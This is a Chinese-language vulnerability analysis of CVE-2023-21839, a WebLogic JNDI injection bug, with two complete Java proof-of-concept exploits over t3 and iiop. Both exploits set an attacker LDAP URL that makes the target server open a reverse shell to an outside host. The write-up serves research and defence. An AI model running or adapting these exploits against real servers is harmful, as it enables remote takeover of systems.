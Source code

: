

# CVE-2023-21839分析 - 先知社区

CVE-2023-21839分析

* * *

参考：

[https://baijiahao.baidu.com/s?id=1758317868693403050](https://baijiahao.baidu.com/s?id=1758317868693403050)

CVE-2023-21839是一个weblogic的JNDI注入漏洞。

> 由于Weblogic t3/iiop协议支持远程绑定对象bind到服务端，并且可以通过lookup查看，当远程对象继承自OpaqueReference时，lookup查看远程对象，服务端会调用远程对象getReferent方法。weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并且实现了getReferent方法，并且存在retVal = context.lookup(this.remoteJNDIName)实现，故可以通过rmi/ldap远程协议进行远程命令执行。

## 远程绑定对象

weblogic的t3与iiop协议都支持使用JNDI来远程绑定对象并lookup查询，代码如下：

```plain
// 创建远程对象
MyRemoteObject remoteObject = new MyRemoteObject();
// 获取上下文
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
env.put(Context.PROVIDER_URL, "t3://<server_ip>:<iiop_port>");
Context ctx = new InitialContext(env);
// 绑定对象到JNDI
ctx.rebind("myRemoteObject", remoteObject);
// 远程查找对象
MyRemoteObject remoteObj = (MyRemoteObject) ctx.lookup("myRemoteObject");
```

如果想通过iiop协议绑定则把代码中的t3换成iiop即可，需要注意的是，由于在绑定的过程中，数据是序列化传输的，所以这里的MyRemoteObject需要实现Serializable接口。

CVE-2020-2551就是利用这种方式，客户端向服务端发送remoteObject之后，服务端对其进行反序列化，导致造成反序列化漏洞。

## OpaqueReference

weblogic中的OpaqueReference是一个接口：

[![](assets/1701612521-0500918fcc0425a0ec5a01d249e246c9.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313170301708.png)

当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。

## 漏洞分析

分析环境用的是weblogic 10.3.6.0

漏洞的触发点在ForeignOpaqueReference.getReferent()

[![](assets/1701612521-4ee75e4e82ecee5c1f1b6575a4a26350.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171008938.png)

ForeignOpaqueReference继承自OpaqueReference，前面说过，当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。所以，如果远程绑定了ForeignOpaqueReference对象，在lookup查询该对象时，就会调用ForeignOpaqueReference.getReferent()，所以这里我们只要控制var4与this.remoteJNDIName就能造成jndi注入。

this.remoteJNDIName是一个private的属性，可以通过反射的方式进行修改。

[![](assets/1701612521-1a64fcf7b08bc63955a20b4c65401f91.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171528816.png)

var4的话，只要this.jndiEnvironment有值，就用this.jndiEnvironment的值对InitialContext进行初始化，this.jndiEnvironment也可以使用反射的方式进行赋值。

所以poc如下：

依赖：

```plain
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>wlfullclient</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>spring</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>logging</artifactId>
    <version>0.1</version>
</dependency>
```

```plain
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://192.168.135.129:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

[![](assets/1701612521-4f7b3efd755a350df38946b223ad6aa5.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313174359085.png)

如果通过iiop协议绑定及查询的话，需要解决iiop的nat网络问题，需要手动设置IOPProfile.IP和IOPProfile.PORT，完整poc如下：

```plain
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "iiop://192.168.135.129:7001"; // 目标机器
        long TIME_OUT = 15000L; // 超时时间
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        env1.put("weblogic.jndi.requestTimeout", TIME_OUT + ""); // 超时时间
        IOPProfile.IP = "192.168.135.129"; // 解决iiop协议的nat网络问题
        IOPProfile.PORT = 7001; // 解决iiop协议的nat网络问题
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

## 总结

CVE-2023-21839是一个weblogic的JNDI注入漏洞。它与CVE-2020-2551有些相似，但又不同：

相同点：都利用了weblogic的远程jndi绑定对象机制，最终都造成了jndi注入

不同点：CVE-2020-2551使用的是iiop协议，利用的是RMI-IIOP传输数据过程中的序列化与反序列化触发漏洞类与漏洞函数；而CVE-2023-21839是通过远程绑定恶意对象后再对其进行查询来调用漏洞函数，使用t3或者iiop协议均可。
